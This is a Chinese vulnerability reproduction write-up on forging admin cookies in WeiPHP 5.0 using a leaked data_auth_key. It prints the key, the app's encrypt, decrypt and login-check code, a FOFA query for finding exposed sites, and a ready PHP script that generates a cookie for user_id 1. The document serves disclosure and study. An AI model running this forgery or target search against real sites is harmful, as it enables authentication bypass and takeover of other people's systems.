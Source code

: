 # WeiPHP5.0 任意用户Cookie伪造 CNVD-2021-09693

# WeiPHP5.0 任意用户Cookie伪造 CNVD-2021-09693

## 漏洞描述

Weiphp5.0 存在管理员用户Cookie伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的Cookie

## 漏洞影响

```
Weiphp <= 5.0
```

## 环境搭建

[weiphp5.0官方下载参考手册](https://www.weiphp.cn/doc/Initialization_database.html)

参考官方手册创建网站即可

![](/images/202202162320938.png)



## 网络测绘

app="WeiPHP"

## 漏洞复现

首先需要得到数据库配置文件中的**data_auth_key**密钥

![](/images/202202162320455.png)

得到这个配置文件可参照上一篇**Weiphp5.0 前台文件任意读取**

```plain
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
```

全局查找下使用了这个密钥的地方

![](/images/202202162320938.png)

找到了跟据这个密钥的加密方法和解密方法

**加密方法 think_encrypt**

```php
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```

**解密方法 think_decrypt**

```php
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```

全局查看下使用了解密方法的地方

在文件 **application\common.php** 中含有使用解密方法的代码，用于做身份验证

```php
function is_login()
{
    $user = session('user_auth');
    if (empty($user)) {
        $cookie_uid = cookie('user_id');
        if (!empty($cookie_uid)) {
            $uid = think_decrypt($cookie_uid);
            $userinfo = getUserInfo($uid);
            D('common/User')->autoLogin($userinfo);

            $user = session('user_auth');
        }
    }
    if (empty($user)) {
        return 0;
    } else {
        return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
    }
}
```

根据这里得到的代码，可以知道当**user_Id=1**时,会解密密钥后判断是否正确，如果正确则可以登录系统

我们在本地使用加密代码加密**user_id=1**得到的cookie则可以登录系统

```php
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
    $key = md5($key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>
```

![](/images/202202162320334.png)

添加**cookie: user_id=xxxxxxxx**即可成功登录

![](/images/202202162320956.png)



![](/images/202202162321696.png)



- 获取密钥的方法参照上一篇审计文章

